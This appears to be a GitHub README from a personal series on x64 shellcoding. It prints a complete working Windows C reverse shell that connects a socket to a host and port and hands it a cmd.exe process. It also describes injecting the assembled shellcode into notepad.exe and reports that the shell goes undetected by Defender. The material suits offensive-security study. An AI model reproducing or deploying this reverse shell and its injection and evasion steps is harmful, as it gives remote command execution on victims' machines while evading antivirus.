

# About
Over the last month or so, i have been studying the art of shellcoding in x64. In this context, shellcoding is defined as position independent assembly code which can executed locally or injected into a remote process to run code for offensive purposes. Up until now, i have been working on the building blocks which provide the understanding necessary to achieve the goal of writing my own position independent reverse shell in pure assembly. Listed below are the previous posts i've made in relation to the topic of shellcoding.

## Previous write ups
1. [Coding-my-first-position-independent-shellcode-for-windows-from-scratch-in-x64-assembly](https://github.com/wizardy0ga/coding-my-first-position-independent-shellcode-for-windows-from-scratch-in-x64-assembly)
2. [Improving-my-x64-PIC-shellcode-windows-peb-walk](https://github.com/wizardy0ga/improving-my-x64-PIC-shellcode-windows-peb-walk)
3. [djb2-hash-x64-assembly](https://github.com/wizardy0ga/djb2-hash-x64-assembly)
4. [Improving-my-x64-PIC-shellcode-windows-peb-walk-part-2](https://github.com/wizardy0ga/improving-my-x64-PIC-shellcode-windows-peb-walk-part-2)
5. [GetProcAddress-rewritten-in-pure-x64-asm](https://github.com/wizardy0ga/GetProcAddress-rewritten-in-pure-x64-asm)

# Further Information
To code this reverse shell, i used the template provided by [revshells.com](https://www.revshells.com/) as a reference point. The shell was coded doing a side-by-side between the assembly and this reverse shell with myself in the middle acting as a human compiler of sorts. Interesting stuff. 

```c
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32")

WSADATA wsaData;
SOCKET Winsock;
struct sockaddr_in hax; 
char ip_addr[16] = "127.0.0.1"; 
char port[6] = "1337";            

STARTUPINFO ini_processo;

PROCESS_INFORMATION processo_info;

int main()
{
    WSAStartup(MAKEWORD(2, 2), &wsaData);
    Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);


    struct hostent *host; 
    host = gethostbyname(ip_addr);
    strcpy_s(ip_addr, 16, inet_ntoa(*((struct in_addr *)host->h_addr)));

    hax.sin_family = AF_INET;
    hax.sin_port = htons(atoi(port));
    hax.sin_addr.s_addr = inet_addr(ip_addr);

    WSAConnect(Winsock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&ini_processo, 0, sizeof(ini_processo));
    ini_processo.cb = sizeof(ini_processo);
    ini_processo.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW; 
    ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

    TCHAR cmd[255] = TEXT("cmd.exe");

    CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);

    return 0;
}
```

# Demonstration
In this demonstration, we assemble the reverse shell and then carve the text section from the resulting executable to get the shellcode. We then paste the shellcode into the [CreateRemoteThread](https://github.com/wizardy0ga/Windows-Shellcode-Injection-Methods/blob/main/Injection%20Methods/Remote%20Process/CreateRemoteThread/main.c) injector and inject the shellcode into notepad.exe. This shell is successfully caught by our netcat listener on port 1337.

For fun, we verify that defender is fully enabled. Since [ncat](https://nmap.org/ncat/) is statically signatured by defender, an exclusion was added for it. Aside from this, the reverse shell goes undetected. Defender sucks, don't use it.

